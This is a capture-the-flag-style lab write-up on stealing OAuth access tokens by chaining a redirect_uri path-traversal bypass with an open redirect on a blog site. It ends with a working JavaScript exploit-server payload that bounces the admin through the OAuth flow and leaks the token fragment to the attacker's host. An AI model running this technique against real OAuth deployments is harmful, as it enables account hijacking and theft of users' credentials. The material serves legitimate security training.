# Stealing OAuth access tokens via an open redirect
# Objective
This lab uses an OAuth service to allow users to log in with their social media account. Flawed validation by the OAuth service makes it possible for an attacker to leak access tokens to arbitrary pages on the client application.

To solve the lab, identify an open redirect on the blog website and use this to steal an access token for the admin user's account. Use the access token to obtain the admin's API key and submit the solution using the button provided in the lab banner. 

You cannot access the admin's API key by simply logging in to their account on the client application.

The admin user will open anything you send from the exploit server and they always have an active session with the OAuth service.

You can log in via your own social media account using the following credentials: `wiener:peter`

# Solution
## Analysis
Website uses OAuth to allow users to log with their social account.

||
|:--:| 
| *OAuth login - access_token is placed as fragment in redirect URL* |
||
| *OAuth login* |
||
| *OAuth login - access_token is used in authorization header to retrieve user data from /me endpoint* |
||
| *OAuth login - access_token is used to complete login* |


## Exploitation
The website has `Next page` funcionality that is vulnerable to open redirect.

||
|:--:| 
| *Next page functionality* |
||
| *Open redirect vulnerability* |

Attacker can bypass `redirect_uri` validation by using path traversal.

||
|:--:| 
| *Parameter redirect_uri modification* |
||
| *Path Traversal - Redirect to post page* |

Combining two above mentioned vulnerabilities attacker can create link page that would leak victim's authorization code. The sript located at attacker's website needs to extract fragment value with `access_token` and for example send it as parameter to attacker's website. Otherwise URL fragment will be omitted by browser.

||
|:--:| 
| *Open redirect test* |
||
| *Exploit server configuration* |
||
| *Account hijacking - victim's authorization code* |
||
| *Account hijacking - Using stolen authorization code in authorization header* |

Exploit server configuration:
```html
<script>
    if (!document.location.hash) {
        // Provide payload if this is first victim's request
        window.location = 'https://oauth-0a08003704c629d2805b56dc027b00b4.oauth-server.net/auth?client_id=p20li0mdbxfe80qt6z08m&redirect_uri=https://0a9a006b040829108023580700520094.web-security-academy.net/oauth-callback/../post/next?path=https://exploit-0a2400df04b7292f8074571a01d70023.exploit-server.net/exploit&response_type=token&nonce=-1533118304&scope=openid%20profile%20email'
    } else {
        // Steal location hash from second victim's request - extract location hash if present
        window.location = '/?'+document.location.hash.substr(1)
    }
</script>
```
